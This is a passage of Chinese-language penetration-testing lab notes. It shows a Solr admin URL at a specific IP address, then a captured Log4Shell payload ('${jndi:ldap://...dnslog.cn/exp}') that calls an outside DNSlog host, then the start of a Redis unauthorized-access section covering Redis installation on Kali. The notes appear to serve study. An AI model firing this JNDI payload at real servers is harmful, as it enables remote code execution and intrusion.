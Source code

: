 





```

101.43.121.119:8983/solr/admin/cores?

```

### 抓包

```
payload=${jndi:ldap://ys5dfz.dnslog.cn/exp}
```



![image-20220119121951533](https://gitee.com/xxb667/img/raw/master/img/image-20220119121951533.png)



# 第6次 redis未授权访问

## kali安装redis

### 参考文章

```
https://www.cnblogs.com/loopkep/p/11135949.html
```

### redis官方下载地址

```
https://redis.io/download
```

![image-20220120191517589](https://gitee.com/xxb667/img/raw/master/img/image-20220120191517589.png)

### redis-6.2.6

下载、提取和编译 Redis：

```
$ wget https://download.redis.io/releases/redis-6.2.6.tar.gz
$ tar xzf redis-6.2.6.tar.gz
$ cd redis-6.2.6
$ make
```

现在编译的二进制文件在目录中可用。运行 Redis 时，将：`src`

```
$ src/redis-server
```
